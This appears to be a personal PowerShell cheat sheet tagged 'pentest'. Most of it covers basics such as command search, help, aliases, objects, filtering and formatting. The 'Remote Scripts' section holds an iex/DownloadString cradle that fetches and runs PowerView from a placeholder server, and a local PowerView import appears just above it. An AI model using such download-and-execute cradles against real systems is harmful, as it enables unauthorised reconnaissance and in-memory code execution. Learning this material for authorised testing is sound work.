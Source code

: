```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## Basics
* Search Commands
	```powershell
	#list all powershell cmdlets, functions and alias
	Get-Command
	
	#search ommands that starts with get
	Get-Command get*
	
	#search commands that ends with object
	Get-Command *object
	
	#search command for a verb
	Get-Command -Verb Get
	
	#search command for a noun
	Get-Command -Noun Object
	
	```
* Help
	```powershell
	#get help for the command New-Object
	Get-Help New-Object
	
	#List Examples for New-Object
	Get-Help New-Object -Example
	
	#get detailed help for New-Object 
	Get-Help New-Object -Detailed
	
	#get online help for the command
	Get-Help New-Object -Online
	```
* Alias
	```powershell
	# Print all alias
	Get-Alias
	
	#search alias
	Get-Alias search_term
	```
* Variables
	```powershell
	#Storging values/object/data in variable
	$myobj = Get-Childitem
	$myobj = Get-Location
	$myobj = "Doctor Dragon"
	```
## Filesystem
* Filesystem Navigation
	```powershell
	#list files and directories; ls
	Get-Childitem
	
	#change directory; cd
	Set-Location
	
	#print current working directory; pwd
	Get-Location
	
	#print content of the file; cat
	Get-Content filename
	```
## Classes and Objects
* Creating a Class in Powershell
	```powershell
	class human{
		[string]$name
		[int]$age
		[string]greet(){
			return "$($this.name) is $($this.age) years old"
		}
	}
	```
* Creating objects from a class
	```powershell
	# creating instance of a class using accelerator
	$drdragon = [human]::new() 
	$myname = [System.String]::new("Hello World")
	
	# creating a instance of a class using cmdlet
	$drdragon = New-Object -TypeName human
	$myname = New-Object System.String("Hello World")
	```
* List Properties and Methods of Objects
	```powershell
	# get properties and methods for the object
	$myobj | Get-Member
	Get-Childitem | Get-Member
	```
* Accessing Properties and methods of object
	```powershell
	# Acess property for the object
	$myobj.Length
	(New-Object System.String("drdragon")).Length
	
	# execute methods for the object
	$myobj.Remove(1)
	(New-Object System.String("drdragon")).Remove(1)
	```
* Selecting Objects
	```powershell
	# print specific property of an object
	Get-Childitem | Select-Object -Property Name,Parent
	$myobj | Select-Object -Property Name
	
	# print all property of an object
	$myobject | Select-Object -Property *

	# Alisas for Select-Ojbect
	Get-ChildItem | select Name, Parent
	```
* Filtering Objects
	```powershell
	# filter output if object's Name property is equal to "etc"
	Get-Childitem | Where-Object {$_.Name -eq "etc"}
	```
## Format Object
* Format-List
	```powershell
	# Prints Properties of an object in a key-value pair format
	Get-Childitem | Format-List
	
	# Prints secific property
	Get-Childitem | Format-List -Property Name,Parent
	```
* Format-Table
	```powershell
	# Default way of printing objects
	# Prints properties of object in a table format
	Get-Childitem | Format-Table
	
	# Prints secific property
	Get-Childitem | Format-Table -Property Name,Parent
	```
## Running Scripts
- Local Scripts
```powershell
# dot source
. .\Tools\Powerview.ps1

# Using cmdlet
Import-Module C:\Tools\Powerview.ps1

# Get commands imported by a module
Get-Command -Module <ModuleName>

```
- Remote Scripts
```powershell
iex (New-Ojbect Net.webClient).DownloadString('https://server.com/powerview.ps1')
```

# Language Mode
```powershell
# Check current powershell session language mode
$ExecutionContext.SessionState.LanguageMode
```